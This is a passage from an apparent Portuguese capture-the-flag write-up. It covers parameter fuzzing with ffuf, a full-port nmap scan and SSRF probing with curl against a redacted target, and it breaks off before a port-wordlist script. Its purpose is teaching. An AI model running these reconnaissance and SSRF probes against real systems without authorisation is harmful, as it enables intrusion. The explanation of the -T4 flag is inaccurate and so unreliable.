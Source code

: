 ```
 :: Wordlist         : FUZZ: /home/kali/Git/github.com/danielmiessler/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 46
________________________________________________

url                     [Status: 200, Size: 32, Words: 7, Lines: 2, Duration: 14ms]
:: Progress: [6453/6453] :: Job [1/1] :: 3729 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

Passando o parâmetro encontrado:

```
$ curl https://[redacted]/synchronize?url=1

Do I have another open port? ;D
```

Escaneando todas as portas com [nmap][nmap]:

```
$ sudo nmap -T4 -sS -p- -Pn -oN nmap.txt [redacted]

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

O parâmetro `-T4` serve para aumentar o valor do timeout das requisições e ter
uma resposta mais "confiável", o `-sS` serve para não finalizar o processo de
3-Way Handshake (faz o scan ser mais rápido), o `-p-` serve para escanear da
porta 0 até a 65535, o `-Pn` serve para informar o nmap que o servidor está
funcionando pois o servidor não responde a pacotes ICMP (PING) e `-oN nmap.txt`
serve para salvar a saída do comando no arquivo nmap.txt.

Como só retornou a porta 22 e 80, não é porta acessada externamente, ai entra o
SSRF, Server-side request forgery, vamos fazer uma requisição que só é possível
a partir do servidor, vamos "forjar uma requisição no lado do servidor",
precisamos descobrir pra qual host será essa requisição interna, essa parte foi
manual, tentativa e erro, até que o erro mudou:

```
$ curl https://[redacted]/synchronize?url=http://127.0.0.1

Almost...

Try harder! ;D
```

Já temos o host, no caso, localhost do servidor, agora precisamos descrobrir a
porta. Fiz um script pra gerar uma wordlist com todas as portas possíveis:


[nmap]: https://nmap.org